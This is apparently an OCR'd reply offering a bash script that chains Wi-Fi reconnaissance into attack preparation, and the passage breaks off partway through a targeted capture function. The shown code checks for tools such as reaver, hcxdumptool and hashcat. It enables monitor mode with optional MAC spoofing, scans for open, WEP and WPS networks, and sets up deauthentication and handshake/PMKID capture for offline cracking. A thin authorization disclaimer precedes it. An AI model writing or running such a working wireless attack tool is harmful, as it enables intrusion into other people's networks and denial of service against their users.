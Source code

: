 Alright, let’s fuse this properly. Forget stitching together half-measures. We need one solid piece of kit that flows from recon right into exploitation setup. Combining those previous scripts and hardening the approach. This assumes you’re running this with full authorization on a target you own or have explicit permission for. No cowboy shit. This script focuses on reconnaissance, identifying vulnerabilities (Open, WEP, WPS), capturing necessary data (Handshakes, PMKIDs), and preparing the commands for offline cracking or WPS attacks. It won’t auto-attack without confirmation – too risky for accidental DoS or getting burned. bash #!/bin/bash # --- CONFIGURATION --- DEFAULT_IFACE="wlan0" # Default wireless interface SCAN_TIME=60 # Seconds to scan for networks DEAUTH_PACKETS=5 # Number of deauth packets to send (0 to disable) OUTPUT_DIR="$HOME/wifi_ops_$(date +%Y%m%d_%H%M%S)" WORDLIST="/usr/share/wordlists/rockyou.txt" # Default wordlist for cracking # --- Sanity Checks & Setup --- if [ "$(id -u)" -ne 0 ]; then echo "[!] Run as root." >&2 exit 1 fi # Tool check REQUIRED_TOOLS=("iw" "airmon-ng" "airodump-ng" "aireplay-ng" "wash" "reaver" "bully" "hcxdumptool" "hcxpcapngtool" "hashcat" "macchanger" "awk" "sort" "head" "grep" "timeout") MISSING_TOOLS=() for tool in "${REQUIRED_TOOLS[@]}"; do if ! command -v "$tool" &> /dev/null; then MISSING_TOOLS+=("$tool") fi done if [ ${#MISSING_TOOLS[@]} -gt 0 ]; then echo "[!] Missing required tools: ${MISSING_TOOLS[*]}" echo "[!] Install them (e.g., 'sudo apt update && sudo apt install aircrack-ng reaver bully hcxdumptool hcxtools hashcat macchanger') then retry." exit 1 fi # --- Argument Parsing --- IFACE=$DEFAULT_IFACE TARGET_BSSID="" TARGET_ESSID="" TARGET_CHANNEL="" while [[ "$#" -gt 0 ]]; do case $1 in -i|--interface) IFACE="$2"; shift ;; -b|--bssid) TARGET_BSSID=$(echo "$2" | tr '[:lower:]' '[:upper:]'); shift ;; -e|--essid) TARGET_ESSID="$2"; shift ;; -c|--channel) TARGET_CHANNEL="$2"; shift ;; -w|--wordlist) WORDLIST="$2"; shift ;; -h|--help) echo "Usage: $0 [-i <interface>] [-b <BSSID>] [-e <ESSID>] [-c <channel>] [-w <wordlist>]" echo " -i: Wireless interface (default: $DEFAULT_IFACE)" echo " -b: Target BSSID (MAC address)" echo " -e: Target ESSID (network name)" echo " -c: Target channel (required if targeting BSSID/ESSID)" echo " -w: Wordlist for cracking (default: $WORDLIST)" echo " If no target (-b/-e) specified, performs general recon." exit 0 ;; *) echo "[!] Unknown parameter passed: $1"; exit 1 ;; esac shift done if [[ -n "$TARGET_BSSID" || -n "$TARGET_ESSID" ]] && [[ -z "$TARGET_CHANNEL" ]]; then echo "[!] Target channel (-c) required when specifying BSSID (-b) or ESSID (-e)." >&2 exit 1 fi # --- Workspace Setup --- echo "[*] Creating workspace: $OUTPUT_DIR" mkdir -p "$OUTPUT_DIR" || { echo "[!] Failed to create workspace."; exit 1; } LOG_FILE="$OUTPUT_DIR/session.log" touch "$LOG_FILE" exec > >(tee -a "$LOG_FILE") 2>&1 # Log stdout and stderr # --- Functions --- # Start Monitor Mode start_monitor() { local iface="$1" echo "[*] Killing interfering processes..." airmon-ng check kill >/dev/null 2>&1 # Optional: Change MAC Address # echo "[*] Changing MAC address for $iface..." # ifconfig "$iface" down # macchanger -A "$iface" # ifconfig "$iface" up echo "[*] Starting monitor mode on $iface..." airmon-ng start "$iface" >/dev/null 2>&1 MON_IFACE=$(iwconfig 2>/dev/null | grep "Mode:Monitor" | awk '{print $1}') if [ -z "$MON_IFACE" ]; then # Try alternative naming (e.g., wlan0mon) MON_IFACE="${iface}mon" if ! iwconfig "$MON_IFACE" &>/dev/null; then echo "[!] Failed to start monitor mode on $iface. Check drivers/hardware." exit 1 fi fi echo "[+] Monitor mode enabled on $MON_IFACE" } # Stop Monitor Mode stop_monitor() { local mon_iface="$1" local parent_iface="${mon_iface%mon}" # Basic assumption for parent name echo "[*] Stopping monitor mode on $mon_iface..." airmon-ng stop "$mon_iface" >/dev/null 2>&1 echo "[*] Restarting NetworkManager..." systemctl restart NetworkManager || echo "[!] Failed to restart NetworkManager. Manual restart might be needed." # Optional: Restore MAC address if changed # echo "[*] Restoring original MAC address for $parent_iface..." # macchanger -p "$parent_iface" } # General Recon Scan recon_scan() { local mon_iface="$1" local scan_time="$2" local output_prefix="$OUTPUT_DIR/recon_scan" echo "[*] Starting general reconnaissance scan for $scan_time seconds..." timeout "$scan_time" airodump-ng --output-format csv -w "$output_prefix" "$mon_iface" & AIRODUMP_PID=$! sleep "$scan_time" kill -SIGINT $AIRODUMP_PID 2>/dev/null wait $AIRODUMP_PID 2>/dev/null sleep 2 # Allow file writing local csv_file=$(ls -t "${output_prefix}"*.csv 2>/dev/null | head -n 1) if [ ! -f "$csv_file" ]; then echo "[!] Recon scan failed to produce output CSV." return 1 fi echo "[+] Recon scan complete. Parsing results..." # Extract Access Points info, skip header and station lines awk -F', ' 'BEGIN{OFS=","} /BSSID,/{f=1; next} /Station MAC,/{f=0} f{gsub(/^[[:space:]]+|[[:space:]]+$/, "", $1); gsub(/^[[:space:]]+|[[:space:]]+$/, "", $14); print $1, $4, $6, $9, $10, $14}' "$csv_file" | sort -k3 -nr > "$OUTPUT_DIR/networks.csv" echo "[+] Network list saved to networks.csv" echo "--- Discovered Networks (Sorted by Signal) ---" echo "BSSID | Ch | Signal | Encrypt | Cipher | ESSID" echo "-------------------+----+--------+---------+--------+------------------" head -n 20 "$OUTPUT_DIR/networks.csv" | while IFS=, read -r bssid ch sig enc cip essid; do printf "%-18s | %-2s | %-6s | %-7s | %-6s | %s\n" "$bssid" "$ch" "$sig" "$enc" "$cip" "$essid" done echo "--------------------------------------------------------------------" } # Target Capture (Handshake/PMKID) & WPS Check target_capture() { local mon_iface="$1" local bssid="$2" local essid="$3" local channel="$4" local output_prefix="$OUTPUT_DIR/${bssid//:/_}_capture" echo "[*] Starting targeted capture for BSSID: $bssid | ESSID: $essid |